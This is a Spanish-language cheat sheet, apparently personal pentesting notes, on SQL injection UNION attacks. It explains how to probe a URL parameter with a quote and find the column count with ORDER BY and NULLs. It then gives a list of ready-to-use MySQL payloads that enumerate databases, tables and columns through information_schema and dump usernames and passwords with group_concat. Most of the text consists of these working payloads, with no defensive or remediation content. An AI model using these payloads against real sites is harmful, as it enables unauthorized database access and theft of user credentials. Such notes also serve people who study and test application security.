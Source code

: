 Un **SQL Injection UNION Attack** ocurre cuando un atacante **inyecta una consulta maliciosa con la cláusula `UNION`** para recuperar datos adicionales de la base de datos.

## Concepto de UNION en SQL
El operador `UNION` en SQL se usa para combinar los resultados de dos consultas:
```sql
SELECT columna1, columna2 FROM tabla1 UNION SELECT columna1, columna2 FROM tabla2;
```

**Reglas clave para que `UNION` funcione:**  
✅ Mismo número de columnas en ambas consultas.
✅ Tipos de datos compatibles entre columnas.

## ¿Cómo detectar si un sitio es vulnerable?
1️⃣ **Comprobar si la consulta es vulnerable**  
Prueba ingresando un **'** en un campo de entrada (por ejemplo, en la URL):
```
https://target.com/profile.php?id=1'
```

📌 **Si devuelve error**, puede indicar una posible vulnerabilidad SQLi.

2️⃣ **Determinar el número de columnas**  
Prueba diferentes números en `ORDER BY`:

```
https://target.com/profile.php?id=1 ORDER BY 1 --  
https://target.com/profile.php?id=1 ORDER BY 2 --  
https://target.com/profile.php?id=1 ORDER BY 3 --  
```

📌 **Cuando recibas error, significa que el número de columnas es mayor que el valor probado.**

También puedes usar:

```sql
1 UNION SELECT NULL --  
1 UNION SELECT NULL, NULL --  
1 UNION SELECT NULL, NULL, NULL --  
```

📌 **El número correcto de NULLs indica cuántas columnas tiene la consulta.**

3️⃣ **Extraer datos sensibles**  
Si confirmas que hay SQL Injection, puedes intentar recuperar información sensible:

```sql
1 UNION SELECT username, password FROM users;
```

Si no sabes los nombres de las tablas, prueba con bases de datos estándar:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database();
```

Para obtener columnas de una tabla específica:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users';
```

📌 **¿Por qué usamos `NULL`?**

- `NULL` es un valor especial que funciona con cualquier tipo de datos.
    
- No sabemos si las columnas son `int`, `varchar`, `date`, etc., así que usamos `NULL` para evitar errores de tipo.
    
- Si la consulta devuelve resultados, significa que **hemos encontrado el número correcto de columnas**.

### MySQL
**Una vez conocido el numero de columnas existentes**
```sql
-- Antes de cada union va un '

-- Para listar todas las DBs existentes
union select schema_name,NULL from information_schema.schemata --


-- Listar todas las tablas de todas las 
union select table_name,NULL from information_schema.tables --

-- Listar una tabla de una DB
union select table_name,NULL from information_schema.tables where table_schema='public' --

-- Listar columnas
union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users' --

-- Listar contenido
union select usernames,password from users -- -
	-- En caso que la tabla este en una db que no es la    actual (en DB va el nombre)
	union select usernames,password from DB.users -- -
	
	-- En caso que solo te deje usar alguna columna
union select NULL,group_concat(username,':',password) from users -- -
	-- Otra forma de concatenar
union select NULL,group_concat(username||':'||password) from users
```

